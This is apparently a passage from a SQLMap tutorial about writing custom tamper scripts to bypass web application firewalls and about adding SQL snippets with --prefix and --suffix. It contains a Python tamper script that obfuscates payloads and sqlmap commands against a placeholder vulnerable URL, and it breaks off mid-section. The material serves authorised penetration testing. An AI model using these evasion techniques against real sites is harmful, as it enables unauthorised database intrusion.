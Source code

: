 ## Creating Custom Tamper Scripts

Tamper scripts can modify payloads dynamically to bypass WAFs and other security measures.

### Example: Advanced Custom Tamper Script

**Script to Add Random Comments**

Create a script `random_comment_tamper.py`:

```
#!/usr/bin/env python

import random

__priority__ = 1

def dependencies():
    pass

def tamper(payload):
    """
    Adds random inline comments to the payload
    """
    if payload:
        parts = payload.split(" ")
        payload = " /*" + str(random.randint(1000, 9999)) + "*/ ".join(parts)
    return payload
```

**Save and Use the Script**

Save this script in the tamper directory of SQLMap and use it:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=random_comment_tamper
```

## Custom Payloads with `--prefix` and `--suffix`

You can use `--prefix` and `--suffix` to add custom SQL snippets before and after the payload.

### Examples: Using `--prefix` and `--suffix`

**Adding Prefix and Suffix**

Add custom snippets before and after the payload:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --prefix="/**/SELECT/**/" --suffix="/**/FROM/**/dual"
```

**Injecting with Custom Wrappers**

Wrap the payload with custom conditions:
